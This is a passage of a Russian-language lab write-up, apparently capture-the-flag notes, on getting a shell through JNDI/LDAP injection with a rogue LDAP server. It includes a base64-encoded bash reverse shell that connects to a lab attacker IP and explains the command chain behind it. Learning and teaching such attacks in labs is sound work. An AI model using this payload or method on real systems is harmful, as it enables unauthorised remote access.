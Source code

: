 ### maven
maven поможет скомпилировать наш java код. По факту это сборщик проекта.
![[Pasted image 20221206202231.png]]

### Мошенический jndi
Тут мы клоним репозиторий с мошеническим сервером ldap
![[Pasted image 20221206203243.png]]

Собираем проект:
![[Pasted image 20221206203403.png]]

Результат сборки:
![[Pasted image 20221206203718.png]]

## Обратная оболочка
Возьмём скрипт из прошлых лабораторных и захэшируем его:
![[Pasted image 20221206213413.png]]
base64: `YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuMTUxLzgwMDEgMD4mMQo=`

Запускаем наш вредоносный сервер ldap со скриптом для получения обратной оболочки:
![[Pasted image 20221206214846.png]]
> На самом деле на скриншоте есть опечатка, которую я не сразу заметил, пропущена запятая в секции с `base64 -d` и хэш был передан не целиком.
> 
> Так же опечатка в слове bash в самом начале.
> 
> А ещё баш скрипт почему-то очень хрупкий и кажется пробелы влияют на его отработку, так что лучше убрать их везде, где только можно

Получился некий чейнинг команд.
Сначала мы говорим, что команда выполняется в inline режиме, после идёт та самая цепочка команд:
- `echo hash`
- декодирование хэша (`base64 -d`)
- интерактивная оболочка bash (`bash -i`)
Ну и далее идёт флаг с id нашего тунелированного ip (`--hostname`)

Установим прослушку на порт, который мы указывали ранее:
![[Pasted image 20221206215545.png]]

Отправим запрос с lmap, сгенерированным нашим злобным сервером:
![[Pasted image 20221206215458.png]]
Пришла 400-ка, но всё окей, так и должно было быть.

Иы получили результат отправки нашего payload:
![[Pasted image 20221206215741.png]]

Всё получилось, мы внутри:
![[Pasted image 20221206223212.png]]
